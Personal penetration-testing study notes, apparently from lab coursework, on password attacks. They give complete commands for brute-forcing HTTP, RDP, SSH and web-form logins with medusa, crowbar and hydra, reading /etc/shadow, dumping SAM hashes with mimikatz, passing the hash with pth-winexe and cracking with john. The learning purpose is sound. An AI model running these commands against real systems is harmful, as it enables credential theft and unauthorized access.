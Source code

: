 ```yaml
---
title: Study Notes - 2021/07/06
date: 2021-07-06 21:40:32
tags: [Penetration Testing, Study Notes]
---
```



# HTTP htaccess password attack with medusa
decompress the rockyou wordlist:
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

# password Attack against Remote Desktop Protocal with crowbar
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1  
```

-n number of threads  
-b protocal  
-s host  
-u username  
-C wordlist  

rdp does not reliably handle multiple threads, so we use single thread 

# SSH Attack with THC-Hydra  
-l target username  
-P wordlist  
protocal://IP  
```
hydra -l kali -P test_wdlist.txt ssh://127.0.0.1
```



# HTTP post attack with THC-Hydra 
obtain addtional info about http-form-post options
```
hydra http-form-post -U 

<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

```
hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```
request verbose output with -vV, and use -f to stop the attack when the first successful result is found.

# Retrieve Password hashes
`hashid <hashvalue>` to identify hash type  

inspect /etc/shadow file 
```
sudo grep root /etc/shadow
```
```
root:$6$18cMHZ.mB57eU82l$lim7jazX00mXUZEB43IOtlHmpFcuTrceOJ1QObdaGr5fwsfsEryh5xcuJEpH7qOyiOmQHcGkn33vhy66GQDAi1:18696:0:99999:7:::
```
the first of which ($6) references the SHA-512 algorithm  
- $1 = MD5 hashing algorithm.
- $2 =Blowfish Algorithm is in use.
- $2a=eksblowfish Algorithm
- $5 =SHA-256 Algorithm
- $6 =SHA-512 Algorithm
18cMHZ.mB57eU82l the salt  

SAM database cannot be copied while the operating system is running because the Windows kernel keeps an exclusive file system lock on the file.

mimikatz modules facilitate password hash extraction from the Local Security Authority Subsystem (LSASS) process memory where they are cached.

```
C:\Tools\password_attacks\mimikatz.exe
> privilege::debug
> token::elevate
> lsadump::sam
```
token::elevate command to elevate the security token from high integrity (administrator) to SYSTEM integrity. If mimikatz is launched from a SYSTEM shell, this step is not required.  

use lsadump::sam to dump the contents of the SAM database

# Passing the hash in windows  
The Pass-the-Hash (PtH) technique (discovered in 1997) allows an attacker to authenticate to a
remote target by using a valid combination of username and NTLM/LM hash rather than a clear
text password. This is possible because NTLM/LM password hashes are not salted and remain
static between sessions. Moreover, if we discover a password hash on one target, we cannot only
use it to authenticate to that target, we can use it to authenticate to another target as well, as long
as that target has an account with the same username and password.

Security Accounts Manager (SAM)  

To do this, we will use pth-winexe from the Passing-The-Hash toolkit (a modified version of winexe), which performs authentication using the SMB protocol

```
pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

Question: what does "aad3b435b51404eeaad3b435b51404ee" do ? why there are two hashes?
aad3b435b51404eeaad3b435b51404ee: Empty LM HASH `<LM hash>:<NTLM hash>`    

NTLM hash algorithn:
```
MD4(UTF-16-LE(password))
```

Behind the scenes, the format of the NTLM hash we provided was changed into a NetNTLM
version 1 or 2 format during the authentication process. We can capture these hashes using
man-in-the-middle or poisoning attacks and either crack them581 or relay them

https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html  

# Password cracking
recover clear text password from hash  
```
john hash.txt --format=NT
```
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```
```
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

## use john with linux password  
```
grep victim /etc/passwd > test_pw.txt
sudo grep victim /etc/shadow > test_shadow.txt
unshadow test_pw.txt test_shadow.txt > test_unshadow.txt
john est_unshadow.txt
```

john need the unshadow format as input hash  

I created a victim user, but the hash type is $y$ which can not be cracked 
